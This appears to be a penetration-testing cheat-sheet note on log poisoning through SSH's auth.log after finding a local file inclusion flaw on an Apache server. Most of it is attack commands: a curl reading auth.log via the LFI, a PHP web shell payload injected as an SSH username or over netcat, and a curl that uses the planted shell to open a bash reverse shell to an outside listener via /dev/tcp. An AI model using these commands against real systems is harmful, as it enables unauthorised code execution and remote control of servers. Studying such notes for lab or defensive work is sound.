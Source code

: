 -- -
It's the same as for the [[Apache Log Poisoning]], but a different log file so different methodology.
### Enum
Say you found LFI in an #apache server, try to access the `auth.log` file in the web root
```bash
# You are looking for:
# /var/log/auth.log
curl http://192.168.249.80/console/file.php?file=/var/log/auth.log
```
### Exploit
##### Submit payload to log
Try to log into SSH with the payload as the user so it gets written to the log file, something like:
```bash
# This may not work
ssh '<?php system($_GET['c']); ?>'@192.168.249.80

# you can use netcat:
nc -nv <ip> 22
<?php system($_GET['cmd']); ?>
```
##### Use webshell to get a reverse shell
```bash
curl http://192.168.249.80/conosle/file.php?file=/var/log/auth.log&c=bash -i >& /dev/tcp/192.168.45.199/9001 0>&1
```